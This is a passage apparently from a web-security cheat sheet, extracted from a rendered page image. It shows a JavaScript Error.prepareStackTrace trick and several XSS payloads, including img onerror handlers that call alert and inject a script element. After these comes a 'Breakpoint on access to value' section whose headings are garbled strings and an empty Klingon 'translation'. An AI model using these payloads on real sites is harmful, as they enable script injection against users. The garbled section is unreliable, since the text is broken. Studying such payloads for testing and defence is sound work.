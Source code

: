 ```javascript
Error.prepareStackTrace=function(error, callSites){
2   callSites.shift().getThis().alert(1337);
3 };
4 new Error().stack

// From an HTML event
// Events from HTML are executed in this context
with(document) {
with(element) {
//executed event
}
}
// Because of that with(document) it's possible to access properties of document like:
<img src onerror=defaultView.alert(1337)>
<img src onerror=s=createElement('script');s.append('alert(1337)');appendChild(s)>
```
{% endcode %}

## Breakpoint on access to value

## yIqImHa' vItlhutlh

### Description

When dealing with JavaScript code, it is sometimes useful to set a breakpoint on the access to a specific value. This allows you to pause the execution of the code and inspect the value at that point.

### Translation (tlhIngan Hol)

### ghItlhHa'
